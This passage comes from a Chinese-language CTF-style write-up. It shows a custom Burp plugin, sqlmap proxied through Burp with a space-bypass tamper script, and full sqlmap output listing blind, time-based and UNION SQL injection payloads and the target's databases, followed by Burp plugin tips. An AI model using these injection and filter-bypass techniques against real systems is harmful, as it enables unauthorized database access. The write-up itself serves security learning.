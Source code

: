 插件build后加载到burp中enable，再将sqlmap的流量代理到burp中，因为这个注入还有一个坑就是将space空格给替换了，所以这里加入一个tamper脚本来绕过这个filter机制。

sqlmap -r ~/Documents/cracksql.txt --proxy http://127.0.0.1:8080 --tamper space2hash.py

```
sqlmap identified the following injection point(s) with a total of 78 HTTP(s) requests:
---
Parameter: id (PATCH)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 3122=3122

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))GVuA)

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=-5803 UNION ALL SELECT NULL,CONCAT(0x716a6a7871,0x647970627157614649706c49466f647248475a6f6f66555977736d644845537976796a696c645953,0x7171707171)#
---
back-end DBMS: MySQL 5.0.12
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (PATCH)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 3122=3122

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))GVuA)

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=-5803 UNION ALL SELECT NULL,CONCAT(0x716a6a7871,0x647970627157614649706c49466f647248475a6f6f66555977736d644845537976796a696c645953,0x7171707171)#
---
back-end DBMS: MySQL 5.0.12
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sangebaimao

```

这里如果不解密响应包的话就不能用UNION query来快速查库了，part3就在这个库里面。

### 0xff 归隐江湖

1.  burp不会判断重复插件，加载新插件的时候记得移除老版本插件
2.  插件执行顺序按照ui上显示的顺序，可以使用down／up调整
3.  对method区分比较清楚，如果遇到post请求中url中也带有参数需要注意，当然一些奇怪的method处理起来也需要点变通
4.  output如果输入内容较多ui显示不全，可以选择output to system console，然后去terminal中查看